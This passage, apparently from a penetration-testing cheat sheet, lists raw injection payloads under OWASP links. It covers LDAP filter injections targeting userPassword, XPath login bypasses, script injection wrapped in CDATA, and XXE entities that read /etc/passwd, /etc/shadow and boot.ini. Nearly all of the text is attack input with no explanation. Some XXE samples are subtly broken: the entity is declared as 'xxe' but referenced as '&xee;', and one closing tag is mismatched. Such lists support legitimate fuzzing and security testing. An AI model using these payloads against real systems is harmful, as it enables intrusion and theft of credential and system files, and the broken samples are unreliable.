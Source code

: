 For details on LDAP Injection: [Testing for LDAP Injection](https://www.owasp.org/index.php/Testing_for_LDAP_Injection_%28OWASP-DV-006%29)

```
 |
 !
 (
 )
 %28
 %29
 &
 %26
 %21
 %7C
 *|
 %2A%7C
 *(|(mail=*))
 %2A%28%7C%28mail%3D%2A%29%29
 *(|(objectclass=*))
 %2A%28%7C%28objectclass%3D%2A%29%29
 *()|%26'
 admin*
 admin*)((|userPassword=*)
 *)(uid=*))(|(uid=*
```

## XPATH Injection

For details on XPATH Injection: [Testing for XPath Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_%28OWASP-DV-010%29)

```
 '+or+'1'='1
 '+or+''='
 x'+or+1=1+or+'x'='y
 /
 //
 //*
 */*
 @*
 count(/child::node())
 x'+or+name()='username'+or+'x'='y
```

## XML Injection

Details on XML Injection here: [Testing for XML Injection](https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OWASP-DV-008%29)

```
 <![CDATA[<script>var n=0;while(true){n++;}</script>]]>
 <?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
 <?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foof>
 <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xee;</foo>
 <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xee;</foo>
 <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xee;</foo>
 <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///dev/random">]><foo>&xee;</foo>
```
